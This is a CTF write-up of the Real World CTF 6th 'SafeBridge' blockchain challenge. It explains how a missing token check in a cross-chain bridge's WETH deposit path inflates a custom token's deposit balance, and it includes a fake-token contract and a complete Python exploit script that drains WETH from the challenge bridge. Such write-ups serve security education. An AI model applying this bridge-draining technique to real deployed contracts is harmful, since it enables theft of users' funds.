 ```yaml
---
title: Real World CTF 6th – SafeBridge
date: '2024-01-29'
draft: false
authors: ['yanhu']
tags:
  [
    'Real World CTF 6th',
    'Blockchain',
    'Web3',
    'Smart Contract',
    'Solidity',
    'Cross Chain',
    'Data Validation',
  ]
summary: 'Exploiting cross-chain bridge vulnerabilities to drain tokens from the bridge'
canonicalUrl: 'https://yanhuijessica.github.io/Chictf-Writeups/blockchain/safebridge'
---
```


## SafeBridge (Blockchain, 17 Solves)

> I’ve crafted what I believed to be an ultra-safe token bridge. Don’t believe it?
>
> [Attachment](https://github.com/YanhuiJessica/Chictf-Writeups/raw/master/docs/blockchain/static/safebridge.zip)

This challenge is derived from [Enterprise Blockchain](https://yanhuijessica.github.io/Chictf-Writeups/blockchain/paradigm/enterprise_blockchain/) in Paradigm CTF 2023. The `CrossDomainMessenger.sendMessage()` function, which can be used for sending cross-chain messages, is still publicly available. The difference is that when finalizing a cross-chain token transfer, it will verify whether the initiator of the cross-chain message is the bridge on the corresponding chain. Thus, cross-chain token transfers are only possible via `L1ERC20Bridge.depositERC20() / L1ERC20Bridge.depositERC20To()` and `L2ERC20Bridge.withdraw() / L2ERC20Bridge.withdrawTo()`:

```js
function finalizeERC20Withdrawal(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
    public
    onlyFromCrossDomainAccount(l2TokenBridge)
{
    deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] - _amount;
    IERC20(_l1Token).safeTransfer(_to, _amount);
    emit ERC20WithdrawalFinalized(_l1Token, _l2Token, _from, _to, _amount);
}

modifier onlyFromCrossDomainAccount(address _sourceDomainAccount) {
    require(msg.sender == address(getCrossDomainMessenger()), "messenger contract unauthenticated");

    require(
        getCrossDomainMessenger().xDomainMessageSender() == _sourceDomainAccount,
        "wrong sender of cross-domain message"
    );

    _;
}
```

To withdraw WETH from L1Bridge, we need to invoke the `L2ERC20Bridge.withdraw()` function. In `_initiateWithdrawal()`, `l1Token` is read from `_l2Token`. Since the `_l2Token` provided by users could be a custom token, then only the value of `L1ERC20Bridge.deposits[weth][_l2Token]` should not be less than the amount to be transferred.

```js
function withdraw(address _l2Token, uint256 _amount) external virtual {
    _initiateWithdrawal(_l2Token, msg.sender, msg.sender, _amount);
}

function _initiateWithdrawal(address _l2Token, address _from, address _to, uint256 _amount) internal {
    IL2StandardERC20(_l2Token).burn(msg.sender, _amount);

    address l1Token = IL2StandardERC20(_l2Token).l1Token();
    bytes memory message;
    if (_l2Token == Lib_PredeployAddresses.L2_WETH) {
        message = abi.encodeWithSelector(IL1ERC20Bridge.finalizeWethWithdrawal.selector, _from, _to, _amount);
    } else {
        message = abi.encodeWithSelector(
            IL1ERC20Bridge.finalizeERC20Withdrawal.selector, l1Token, _l2Token, _from, _to, _amount
        );
    }

    sendCrossDomainMessage(l1TokenBridge, message);

    emit WithdrawalInitiated(l1Token, _l2Token, msg.sender, _to, _amount);
}
```

When initiating a transfer from L1 to L2, if `_l1Token` is `weth`, the corresponding amount of `L2_WETH` will be minted in `L2ERC20Bridge.finalizeDeposit()`. However, `_l2Token` may not be `L2_WETH`. If `_l2Token` is a custom token controlled by the player, not only can player obtain `L2_WETH`, but `deposits[weth][_l2Token]` will also increase:

```js
function depositERC20(address _l1Token, address _l2Token, uint256 _amount) external virtual {
    _initiateERC20Deposit(_l1Token, _l2Token, msg.sender, msg.sender, _amount);
}

function _initiateERC20Deposit(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
        internal
{
    IERC20(_l1Token).safeTransferFrom(_from, address(this), _amount);

    bytes memory message;
    if (_l1Token == weth) { // @audit-issue no check if _l2Token is L2_WETH
        message = abi.encodeWithSelector(
            IL2ERC20Bridge.finalizeDeposit.selector, address(0), Lib_PredeployAddresses.L2_WETH, _from, _to, _amount
        );
    } else {
        message =
            abi.encodeWithSelector(IL2ERC20Bridge.finalizeDeposit.selector, _l1Token, _l2Token, _from, _to, _amount);
    }

    sendCrossDomainMessage(l2TokenBridge, message);
    deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;

    emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
}
```

Since `deposits[weth][L2_WETH]` already has a value, we can drain WETH in l1Bridge with `L2_WETH` and custom `_l2Token`.

### Exploitation

```js
contract FakeL2StandardERC20 is L2StandardERC20 {
    constructor(address _l1Token) L2StandardERC20(_l1Token, "FAKE", "FAKE") {}

    function mint(address _to, uint256 _amount) public override {
        _mint(_to, _amount);
    }
}
```

```py
import pwn
from cheb3 import Connection
from cheb3.utils import load_compiled

fake_abi, fake_bin = load_compiled('L2StandardERC20.sol', 'FakeL2StandardERC20')
challenge_abi, _ = load_compiled('Challenge.sol')
weth_abi, _ = load_compiled('WETH.sol')
l1bridge_abi, _ = load_compiled('L1ERC20Bridge.sol')
l2bridge_abi, _ = load_compiled('L2ERC20Bridge.sol')

L2_ERC20_BRIDGE = "0x420000000000000000000000000000000000baBe"
L2_WETH = "0xDeadDeAddeAddEAddeadDEaDDEAdDeaDDeAD0000"
AMOUNT = int(2e18)

HOST = "47.251.56.125"
PORT = 1337
TOKEN = "<team-token>"
svr = pwn.remote(HOST, PORT)
svr.sendlineafter(b"token?", TOKEN)
svr.sendlineafter(b"action?", b"1")

svr.recvuntil(b"rpc endpoints:")
l1 = Connection(svr.recvline_contains(b"l1").replace(b"-", b"").strip().decode())
l2 = Connection(svr.recvline_contains(b"l2").replace(b"-", b"").strip().decode())

priv = svr.recvline_contains(b"private").split(b":")[-1].strip().decode()
challenge_addr = svr.recvline_contains(b"challenge").split(b":")[-1].strip().decode()
svr.close()

l1account = l1.account(priv)
l2account = l2.account(priv)

challenge = l1.contract(l1account, address=challenge_addr, abi=challenge_abi)
weth_addr = challenge.caller.WETH()
l1bridge_addr = challenge.caller.BRIDGE()

# deploy the custom token
fake = l2.contract(l2account, abi=fake_abi, bytecode=fake_bin)
fake.deploy(weth_addr)

# obtain L2_WETH and increase deposits[weth][fake]
weth = l1.contract(l1account, address=weth_addr, abi=weth_abi)
weth.functions.deposit().send_transaction(value=AMOUNT)
weth.functions.approve(l1bridge_addr, AMOUNT).send_transaction()
l1bridge = l1.contract(l1account, address=l1bridge_addr, abi=l1bridge_abi)
l1bridge.functions.depositERC20(weth_addr, fake.address, AMOUNT).send_transaction()

# withdraw
fake.functions.mint(l2account.address, AMOUNT).send_transaction()
fake.functions.approve(L2_ERC20_BRIDGE, AMOUNT).send_transaction()
l2bridge = l2.contract(l2account, address=L2_ERC20_BRIDGE, abi=l2bridge_abi)
l2bridge.functions.withdraw(fake.address, AMOUNT).send_transaction()

l2weth = l2.contract(l2account, address=L2_WETH, abi=weth_abi)
l2weth.functions.approve(L2_ERC20_BRIDGE, AMOUNT).send_transaction()
l2bridge.functions.withdraw(L2_WETH, AMOUNT).send_transaction()

assert challenge.caller.isSolved()

svr = pwn.remote(HOST, PORT)
svr.sendlineafter(b"token?", TOKEN)
svr.sendlineafter(b"action?", b"3")
svr.interactive()
```

Flag: `rwctf{yoU_draINED_BriD6E}`
